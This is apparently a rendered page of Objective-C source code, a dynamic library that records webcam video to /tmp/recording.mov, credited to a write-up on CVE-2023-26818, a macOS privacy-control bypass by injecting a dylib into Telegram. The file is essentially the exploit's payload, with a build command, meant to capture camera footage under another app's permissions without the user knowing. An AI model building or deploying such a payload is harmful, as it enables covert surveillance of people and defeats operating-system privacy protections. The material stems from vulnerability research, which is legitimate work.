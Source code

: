 ```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// gcc -framework Foundation -framework AVFoundation -dynamiclib CamTest.m -o CamTest.dylib
// Code from: https://vsociety.medium.com/cve-2023-26818-macos-tcc-bypass-with-telegram-using-dylib-injection-part1-768b34efd8c4

@interface VideoRecorder : NSObject <AVCaptureFileOutputRecordingDelegate>
@property (strong, nonatomic) AVCaptureSession *captureSession;
@property (strong, nonatomic) AVCaptureDeviceInput *videoDeviceInput;
@property (strong, nonatomic) AVCaptureMovieFileOutput *movieFileOutput;
- (void)startRecording;
- (void)stopRecording;
@end
@implementation VideoRecorder
- (instancetype)init {
    self = [super init];
    if (self) {
        [self setupCaptureSession];
    }
    return self;
}
- (void)setupCaptureSession {
    self.captureSession = [[AVCaptureSession alloc] init];
    self.captureSession.sessionPreset = AVCaptureSessionPresetHigh;
    AVCaptureDevice *videoDevice = [AVCaptureDevice defaultDeviceWithMediaType:AVMediaTypeVideo];
    NSError *error;
    self.videoDeviceInput = [[AVCaptureDeviceInput alloc] initWithDevice:videoDevice error:&error];
    if (error) {
        NSLog(@"Error setting up video device input: %@", [error localizedDescription]);
        return;
    }
    if ([self.captureSession canAddInput:self.videoDeviceInput]) {
        [self.captureSession addInput:self.videoDeviceInput];
    }
    self.movieFileOutput = [[AVCaptureMovieFileOutput alloc] init];
    if ([self.captureSession canAddOutput:self.movieFileOutput]) {
        [self.captureSession addOutput:self.movieFileOutput];
    }
}
- (void)startRecording {
    [self.captureSession startRunning];
    NSString *outputFilePath = @"/tmp/recording.mov";
    NSURL *outputFileURL = [NSURL fileURLWithPath:outputFilePath];
    [self.movieFileOutput startRecordingToOutputFileURL:outputFileURL recordingDelegate:self];
    NSLog(@"Recording started");
}
- (void)stopRecording {
    [self.movieFileOutput stopRecording];
    [self.captureSession stopRunning];
    NSLog(@"Recording stopped");
}
#pragma mark - AVCaptureFileOutputRecordingDelegate
- (void)captureOutput:(AVCaptureFileOutput *)captureOutput
didFinishRecordingToOutputFileAtURL:(NSURL *)outputFileURL
      fromConnections:(NSArray<AVCaptureConnection *> *)connections
                error:(NSError *)error {
    if (error) {
        NSLog(@"Recording failed: %@", [error localizedDescription]);
    } else {
        NSLog(@"Recording finished successfully. Saved to %@", outputFileURL.path);
    }
}
```